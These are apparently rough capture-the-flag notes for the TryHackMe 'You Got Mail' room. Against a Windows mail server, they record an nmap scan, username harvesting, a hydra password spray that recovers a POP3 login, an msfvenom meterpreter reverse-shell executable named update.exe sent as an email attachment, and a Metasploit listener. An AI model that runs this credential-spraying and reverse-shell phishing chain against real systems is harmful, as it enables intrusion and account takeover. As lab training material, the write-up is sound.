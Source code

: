 <code>

https://tryhackme.com/room/yougotmail
  
alias https://brownbrick.co/
not fill to etc/hosts

```root@ip-10-10-123-138:~# nmap -sV brownbrick.co
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-06 14:05 BST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for brownbrick.co (10.10.239.127)
Host is up (0.00056s latency).
Not shown: 992 closed ports
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
110/tcp  open  pop3          hMailServer pop3d
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  imap          hMailServer imapd
445/tcp  open  microsoft-ds?
587/tcp  open  smtp          hMailServer smtpd
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 02:1A:41:63:2C:59 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```


**Username Enumeration**
from web page
oaurelius@brownbrick.co
wrohit@brownbrick.co
lhedvig@brownbrick.co
tchikondi@brownbrick.co
pcathrine@brownbrick.co
fstamatis@brownbrick.co


oot@ip-10-10-196-188:~# hydra -L /root/Desktop/users -p bricks pop3://10.10.98.112
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-06 16:15:48
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking pop3://10.10.98.112:110/
[110][pop3] host: 10.10.98.112   login: lhedvig@brownbrick.co   password: bricks
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-06 16:15:49

try rdp access with user creds .. nothing
try smb enumeration with user creds .. nothing
try pop3 with user creds .. nothing

you must send mail with reverse shell


**make RS**
root@ip-10-10-82-18:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.82.18 LPORT=4444 -f exe -o update.exe

**sendmail with atth rs**
root@ip-10-10-82-18:~# sendemail -s 10.10.135.252:25 -xu lhedvig@brownbrick.co -xp bricks -f lhedvig@brownbrick.co -t lhedvig@brownbrick.co   -a ./update.exe 

tel
**Run Listener**
msf6 exploit(multi/handler) > set LHOST 10.10.82.18
LHOST => 10.10.82.18
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.82.18:4444 



